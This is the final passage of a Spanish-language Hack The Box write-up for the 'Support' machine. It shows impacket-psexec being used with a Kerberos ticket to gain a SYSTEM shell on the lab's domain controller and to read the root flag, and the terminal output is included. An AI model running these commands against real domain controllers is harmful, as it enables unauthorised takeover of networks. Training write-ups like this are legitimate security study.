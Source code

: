 Con el ticket Kerberos válido, lanzo una shell remota como `Administrator` sin necesidad de proporcionar credenciales explícitas, logrando el control completo sobre el Domain Controller.

```terminal
/home/kali/Documents/htb/machines/support:-$ impacket-psexec -k -no-pass support.htb/Administrator@dc.support.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file pNOWcEcn.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service vgWm on dc.support.htb.....
[*] Starting service vgWm.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/484" target="_blank">***Litio7 has successfully solved Support from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
